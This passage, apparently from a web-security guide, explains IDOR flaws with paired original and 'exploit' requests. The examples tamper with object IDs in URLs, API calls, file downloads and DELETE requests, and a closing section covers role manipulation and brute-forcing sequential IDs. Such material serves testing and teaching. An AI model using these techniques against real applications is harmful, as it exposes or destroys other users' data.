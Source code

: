 ## Example Exploitation Payloads

- **URL Parameter Modification:** Modify the object ID in a URL parameter to access another user's data.
   
   Original:
   ```
   http://<target_domain>/user/profile?id=1001
   ```
   Exploit:
   ```
   http://<target_domain>/user/profile?id=1002
   ```

- **API Call Manipulation:** Change object IDs in API calls to view or modify unauthorized data.
   
   Original request:
   ```
   GET /api/user/order/5678
   ```
   Exploit:
   ```
   GET /api/user/order/5679
   ```

- **File Download Exploit:** Manipulate file references to download files belonging to other users.
   
   Original:
   ```
   http://<target_domain>/download?file_id=123
   ```
   Exploit:
   ```
   http://<target_domain>/download?file_id=124
   ```

- **Record Deletion Exploit:** Modify object IDs in a delete request to remove another user's data.
   
   Original request:
   ```
   DELETE /api/records/5678
   ```
   Exploit:
   ```
   DELETE /api/records/5679
   ```

# Bypassing Defenses

To bypass defenses and exploit IDOR vulnerabilities, attackers may use the following techniques:

## User Role Manipulation
   - If the application partially enforces access control by checking roles, attackers may attempt to escalate privileges by manipulating user roles or session tokens to gain unauthorized access.

## Brute Force Object IDs
   - Attackers can brute force object IDs by iterating over a range of object references. If IDs are predictable or sequential, this can allow access to multiple resources.
